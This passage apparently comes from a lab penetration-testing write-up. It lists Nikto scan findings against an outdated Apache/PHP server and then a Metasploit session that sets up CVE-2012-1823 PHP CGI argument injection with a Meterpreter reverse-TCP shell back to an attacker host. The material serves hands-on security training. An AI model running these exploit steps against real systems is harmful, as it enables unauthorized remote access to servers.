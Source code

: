 ```c

+ /test/: Directory indexing found.

+ /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found.

+ /icons/: Directory indexing found.

+ /phpMyAdmin/: phpMyAdmin directory found.

+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.

```

![[Pasted image 20250408095925.png]]

   Key findings from the Nikto scan:
   - Apache 2.2.8 (outdated)
   - PHP 5.2.4 (vulnerable)
   - phpMyAdmin installation (potential access to database)
   - phpinfo.php file (information disclosure)
   - Directory indexing enabled in multiple locations
   - Potential WordPress configuration file exposed

2. **Remote Code Execution (RCE) via PHP CGI Vulnerability**:  

   The server is running PHP 5.2.4, which is vulnerable to CVE-2012-1823 (PHP CGI Argument Injection). We can exploit this using Metasploit:

```php

└─$ msfconsole

msf6 > use exploit/multi/http/php_cgi_arg_injection

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.74.162

RHOSTS => 192.168.74.162

msf6 exploit(multi/http/php_cgi_arg_injection) > set RPORT 80

RPORT => 80

msf6 exploit(multi/http/php_cgi_arg_injection) > set TARGETURI /cgi-bin/php

TARGETURI => /cgi-bin/php

msf6 exploit(multi/http/php_cgi_arg_injection) > set PAYLOAD php/meterpreter/reverse_tcp

PAYLOAD => php/meterpreter/reverse_tcp

msf6 exploit(multi/http/php_cgi_arg_injection) > set LHOST 192.168.74.136

LHOST => 192.168.74.136

msf6 exploit(multi/http/php_cgi_arg_injection) > set LPORT 4444

LPORT => 4444

msf6 exploit(multi/http/php_cgi_arg_injection) > exploit

```

